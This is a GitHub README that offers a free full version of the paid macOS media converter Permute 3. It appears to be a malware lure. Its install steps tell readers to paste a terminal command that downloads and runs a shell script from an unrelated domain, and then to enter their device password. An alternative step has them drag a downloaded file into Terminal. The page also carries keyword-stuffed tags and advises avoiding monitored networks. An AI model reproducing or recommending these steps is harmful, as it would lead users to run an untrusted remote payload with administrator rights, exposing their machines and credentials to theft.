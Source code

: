 <p align="center">
  <img src="https://cdn.jim-nielsen.com/macos/512/permute-3-2021-05-19.png?rf=1024" alt="Permute 3 Mac Banner" />
</p>

<h1 align="center">Permute 3 for macOS Free</h1>

<p align="center">
  🎞️ Convert any video, audio, or image with drag-and-drop simplicity. Fast, clean, and made for Mac.  
  <br><br> 
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/permute312wqa" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20permute 3%20MAC-GET%20Free FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Permute 3 for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://software.charliemonroe.net/assets/images/custom/permute/permute_mini_6.jpg" alt="Permute 3 Interface Screenshot" />
</p>

---
## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

---

## ❓ What is Permute 3?

**Permute 3** is a fast, flexible media converter built for macOS. Whether you're working with video, audio, or image files, it makes conversion effortless: just drag, drop, and choose your format. From MKV to MP4, WAV to MP3, or PNG to JPEG — it's all just one click away.

Designed with simplicity and power in mind, Permute 3 supports batch processing, folder monitoring, and automatic presets. Whether you’re preparing content for editing, uploading, or storage — it handles everything quickly and cleanly.

It runs natively on both Intel and Apple Silicon Macs (M1/M2/M3) and is fully compatible with macOS Sonoma, Ventura, and Monterey.

---

## ✅ Why Choose Permute 3?

- 🎬 **Convert Video, Audio & Images**  
- 🎯 **Supports All Major Formats**  
- 🧲 **Drag-and-Drop Simplicity**  
- 📁 **Batch File Processing**  
- 🧠 **Smart Presets & Folder Watch**  
- 🖥️ **Apple Silicon Native**  
- 🚀 **Blazing Fast Conversion Engine**  
- 🧼 **Minimal UI, Maximum Control**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://software.charliemonroe.net/assets/images/custom/permute/permute_mini_1.jpg" alt="Permute Batch Conversion Screenshot" />
  <br><br>
  <img src="https://software.charliemonroe.net/assets/images/custom/permute/permute_mini_3.jpg" alt="Permute Format Selection Screenshot" />
</p>

---

## 🚀 Key Features

- Convert any media file instantly  
- Presets for all common formats  
- Watch folders for auto-processing  
- Merge video/audio tracks  
- Compress without quality loss  
- Retina UI + dark mode  
- Intel & Apple Silicon native  
- No internet required

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:
- Go to **System Settings > Privacy & Security**  
- Allow Permute under "App Management"

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Permute3-MacOS-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/MacOs-Permute3Free-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Permute Pro – Unlock Format Freedom

Thanks for using **Permute 3** for macOS.  
Enjoy effortless file conversion on your own terms — fast, clean, offline.

---

## 🧭 Usage Context

This macOS utility is designed for local media conversion workflows, file prep, and offline format adjustment.  
No external network services are required or accessed.

All processing is confined to the user's machine.  
Avoid deploying in network-monitored or policy-restricted environments.

This package is not affiliated with any commercial media platform and is provided as-is, with no warranty or endorsement.

---

## 🔍 Tags

```text
permute 3 for mac download, permute macos media converter, permute drag and drop video convert, download permute 3 full version mac, permute app for m1 m2 macbook, convert mkv to mp4 mac permute, permute 3 batch audio convert mac, permute apple silicon native app, permute convert multiple files mac, fast offline video converter mac, permute image file format changer mac, permute folder watcher automation mac, permute dark mode retina ui mac, download permute for macos ventura, permute 3 universal binary mac
